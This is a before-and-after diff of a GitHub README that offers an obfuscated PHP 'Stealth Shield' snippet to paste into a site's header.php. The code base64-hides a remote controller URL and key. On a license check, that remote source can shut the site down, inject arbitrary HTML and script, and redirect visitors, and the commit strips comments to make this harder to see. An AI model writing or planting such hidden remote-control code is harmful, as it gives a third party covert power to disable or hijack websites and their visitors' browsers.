

Before and after one commit to SilentSudoX/SilentSudoX.github.io, a Markdown page: lib/README.md, 3 parts joined by grey strips. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/lib/README.md
+++ b/lib/README.md
@@ -101,30 +101,30 @@ Bilkul, maine aapke liye **HTML (Landing Page)**, **PHP Core**, aur **WordPress*
 **Kahan lagayein:** Website ki main file (e.g., `header.php`) ke sabse top par.
 
 ```php
+
+
 <?php
-/* --- PHP STEALTH SHIELD V10 (FULLY ENCRYPTED) --- */
+/* --- PHP STEALTH SHIELD V10 (REDIRECT CONTROL) --- */
 function _sys_sync_final_v10(){
-    // Configuration Encrypted
     $_u = base64_decode("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u");
-    $_k = base64_decode("RkFIQUQtNzg2"); // Key: FAHAD-786
+    $_k = base64_decode("RkFIQUQtNzg2");
 
-    // Key Mappings Encrypted
     $_f = [
-        'l' => base64_decode("bGljZW5zZXM="),        // licenses
-        's' => base64_decode("c2V0dGluZ3M="),        // settings
-        'e' => base64_decode("ZXhwaXJ5"),            // expiry
-        'a' => base64_decode("YXV0aG9yaXplZF90YXJnZXQ="), // authorized_target
-        'c' => base64_decode("Y3VzdG9tX2NvZGU="),    // custom_code
-        'en' => base64_decode("ZW5hYmxlZA=="),       // enabled
-        'co' => base64_decode("Y29kZQ=="),           // code
+        'l' => base64_decode("bGljZW5zZXM="),
+        's' => base64_decode("c2V0dGluZ3M="),
+        'e' => base64_decode("ZXhwaXJ5"),
+        'a' => base64_decode("YXV0aG9yaXplZF90YXJnZXQ="),
+        'c' => base64_decode("Y3VzdG9tX2NvZGU="),
+        'en' => base64_decode("ZW5hYmxlZA=="),
+        'co' => base64_decode("Y29kZQ=="),
         're' => base64_decode("cmVkaXJlY3RfZW5hYmxlZA=="), // redirect_enabled
-        'ru' => base64_decode("cmVkaXJlY3RfdXJs"),    // redirect_url
-        'rd' => base64_decode("cmVkaXJlY3RfZGVsYXlfc2Vj"), // redirect_delay_sec
-        'mi' => base64_decode("bXNnX2ludmFsaWQ="),    // msg_invalid
-        'me' => base64_decode("bXNnX2V4cGlyZWQ="),    // msg_expired
-        'md' => base64_decode("bXNnX2RvbWFpbl9taXNtYXRjaA=="), // msg_domain_mismatch
-        'lbl' => base64_decode("UmVkaXJlY3RpbmcgYXV0b21hdGljYWxseSBpbg=="), // Redirecting label
-        'lbl2' => base64_decode("c2Vjb25kcy4uLg==")   // seconds label
+        'ru' => base64_decode("cmVkaXJlY3RfdXJs"),
+        'rd' => base64_decode("cmVkaXJlY3RfZGVsYXlfc2Vj"),
+        'mi' => base64_decode("bXNnX2ludmFsaWQ="),
+        'me' => base64_decode("bXNnX2V4cGlyZWQ="),
+        'md' => base64_decode("bXNnX2RvbWFpbl9taXNtYXRjaA=="),
+        'lbl' => base64_decode("UmVkaXJlY3RpbmcgYXV0b21hdGljYWxseSBpbg=="),
+        'lbl2' => base64_decode("c2Vjb25kcy4uLg==")
     ];
 
     $_h = str_replace('www.', '', $_SERVER['HTTP_HOST']);
@@ -140,7 +140,6 @@ function _sys_sync_final_v10(){
         $_err = null;
         $_is_c = false;
 
-        // Priority Check (Custom Code)
         if ($_l && isset($_l[$_f['c']]) && $_l[$_f['c']][$_f['en']] === true) {
             $_err = $_l[$_f['c']][$_f['co']];
             $_is_c = true;
@@ -152,10 +151,13 @@ function _sys_sync_final_v10(){
         }
 
         if ($_err) {
+            $_rd_en = $_s[$_f['re']] ?? false; // Redirect enabled check
             $_dly = $_s[$_f['rd']] ?? 20;
             $_url = $_s[$_f['ru']] ?? "#";
             $_title = $_d['title'] ?? "Security Shield Active";
-            $_t_style = $_is_c ? "display:none;" : "display:block;";
+
+            // Timer style logic: Agar custom message hai YA redirect false hai, toh timer hide karein
+            $_t_style = ($_is_c || !$_rd_en) ? "display:none;" : "display:block;";
 
             die("<style>
                 body{margin:0;background:#000;overflow:hidden;}
@@ -172,8 +174,8 @@ function _sys_sync_final_v10(){
                 <div class='tr'>{$_f['lbl']} <span id='tm'>{$_dly}</span> {$_f['lbl2']}</div>
             </div></div>
             <script>
-                let s={$_dly}, ic=" . ($_is_c ? '1' : '0') . ";
-                if(ic=='0'){
+                let s={$_dly}, ic=" . ($_is_c ? '1' : '0') . ", re=" . ($_rd_en ? '1' : '0') . ";
+                if(ic=='0' && re=='1'){
                     let it=setInterval(()=>{
                         s--; document.getElementById('tm').innerText=s;
                         if(s<=0){ clearInterval(it); window.location.href='{$_url}'; }
@@ -277,8 +280,8 @@ function _wp_secure_v10_stealth() {
             </div>
         </div>
         <script>
-            let s = {$_dly}, ic = " . ($_is_c ? '1' : '0') . ";
-            if(ic == '0'){
+            let s = {$_dly}, ic = " . ($_is_c ? '1' : '0') . ", re = " . ($_rd_en ? '1' : '0') . ";
+            if(ic == '0' && re == '1'){
                 let it = setInterval(()=>{
                     s--;
                     let el = document.getElementById('vt');
````
Also changed, not shown: other parts of lib/README.md (+7 -7 lines).
